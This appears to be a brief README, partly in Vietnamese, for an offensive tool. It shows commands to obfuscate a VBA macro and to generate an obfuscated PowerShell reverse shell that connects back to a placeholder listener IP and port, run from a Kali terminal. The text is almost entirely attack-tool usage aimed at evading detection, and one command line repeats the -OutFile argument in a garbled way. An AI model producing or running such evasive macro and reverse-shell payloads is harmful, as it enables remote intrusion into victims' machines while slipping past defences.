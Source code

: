 # Obfuscate vba_macro
Dùng lệnh này để obfuscate 
```shell
python.exe obfuscate.py origin.vba output.vba
```
# Obfuscate reverse shell
```shell
┌──(kali㉿kali)-[~/Get-ReverseShell]
└─$ pwsh
┌──(kali㉿kali)-[/home/kali/Get-ReverseShell]
└─PS> Import-Module ./get-reverseshell.ps1
┌──(kali㉿kali)-[/home/kali/Get-ReverseShell]
└─PS> Get-ReverseShell -Ip ListenhostIP -Port ListenPort -Cmdlets -NamespaceClasses -Variables -OutFile obfuscated.ps1-OutFile obfuscated.ps1
```